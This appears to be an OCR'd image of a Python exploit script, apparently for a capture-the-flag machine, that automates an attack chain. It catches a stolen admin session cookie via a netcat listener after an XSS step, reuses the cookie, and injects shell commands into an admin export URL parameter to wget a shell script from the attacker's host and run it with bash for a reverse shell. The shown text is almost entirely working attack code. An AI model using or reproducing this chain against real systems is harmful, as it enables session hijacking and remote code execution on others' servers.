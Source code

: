 ```py
    print("[+] Let's receive the cookie from admin!!! [+]")
    os.system("nc -nlvp 9090 > cookie_admin")
    os.system("sleep 65")
    print("[+] Cookie GOT! [+]")
    f = open("cookie_admin", "r")
    admin_cookie = f.readline().strip()
    f.close()
    global cookie_read
    cookie_read = re.search('=s(.*)\s', admin_cookie).group(0)
    cookie_read = cookie_read.removeprefix("=")
    cookie_read = unquote(cookie_read)
    
# Now let's get RCE
def getRCE(lhost,rhost,cookie_read):
    print("[+] Let's get the reverse shell !!! [+]")
    print("[+] First let's convert our ip to hex ! [+]")
    hex_ip = int(ipaddress.ip_address('%s' %lhost))
    print("[+] " + str(lhost) + " = " + str(hex_ip) + " [+]")
    os.system("sleep 5")
    # Making the cookies right
    r.cookies.set('connect.sid', None)
    r.cookies.set('connect.sid', cookie_read)
    # Setting the requests on the url
    os.system("sleep 5")
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"}
    url = "http://" + rhost + ":8000/admin/export?table=%26wget+" + str(hex_ip) + "/shell"
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)
    os.system("sleep 5")
    url = "http://" + rhost + ":8000/admin/export?table=%26bash+shell"
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)
        
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-ip', '--localip', help='Local ip address or hostname to receive the shell', required=True)
    parser.add_argument('-p', '--localport', help='Local port to receive the shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # First login
    loginRickA(rhost)
    # Build XSS
    buildPayload(lhost)
    # Create the JS
    buildJS(lhost)
    # Create the bash script
    buildSHELL(lhost,lport)
    # Send XSS
    sendXSS(rhost,payload)
    # Receive the admin cookie
    receiveCookie()
```